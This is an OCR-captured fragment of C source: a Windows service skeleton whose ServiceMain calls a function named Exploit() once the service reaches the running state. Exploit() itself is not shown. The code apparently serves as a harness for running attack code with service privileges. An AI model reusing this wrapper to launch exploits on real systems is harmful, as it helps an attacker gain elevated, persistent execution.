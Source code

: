 ```c
    return 0;
}



void WINAPI ServiceControlHandler( DWORD controlCode ) {
	switch ( controlCode ) {
		case SERVICE_CONTROL_SHUTDOWN:
		case SERVICE_CONTROL_STOP:
			serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
			SetServiceStatus( serviceStatusHandle, &serviceStatus );

			SetEvent( stopServiceEvent );
			return;

		case SERVICE_CONTROL_PAUSE:
			break;

		case SERVICE_CONTROL_CONTINUE:
			break;

		case SERVICE_CONTROL_INTERROGATE:
			break;

		default:
			break;
	}
	SetServiceStatus( serviceStatusHandle, &serviceStatus );
}

void WINAPI ServiceMain( DWORD argc, TCHAR* argv[] ) {
	// initialise service status
	serviceStatus.dwServiceType = SERVICE_WIN32;
	serviceStatus.dwCurrentState = SERVICE_STOPPED;
	serviceStatus.dwControlsAccepted = 0;
	serviceStatus.dwWin32ExitCode = NO_ERROR;
	serviceStatus.dwServiceSpecificExitCode = NO_ERROR;
	serviceStatus.dwCheckPoint = 0;
	serviceStatus.dwWaitHint = 0;

	serviceStatusHandle = RegisterServiceCtrlHandler( serviceName, ServiceControlHandler );

	if ( serviceStatusHandle ) {
		// service is starting
		serviceStatus.dwCurrentState = SERVICE_START_PENDING;
		SetServiceStatus( serviceStatusHandle, &serviceStatus );

		// do initialisation here
		stopServiceEvent = CreateEvent( 0, FALSE, FALSE, 0 );

		// running
		serviceStatus.dwControlsAccepted |= (SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
		serviceStatus.dwCurrentState = SERVICE_RUNNING;
		SetServiceStatus( serviceStatusHandle, &serviceStatus );

		Exploit();
		WaitForSingleObject( stopServiceEvent, -1 );

		// service was stopped
		serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
		SetServiceStatus( serviceStatusHandle, &serviceStatus );

		// do cleanup here
```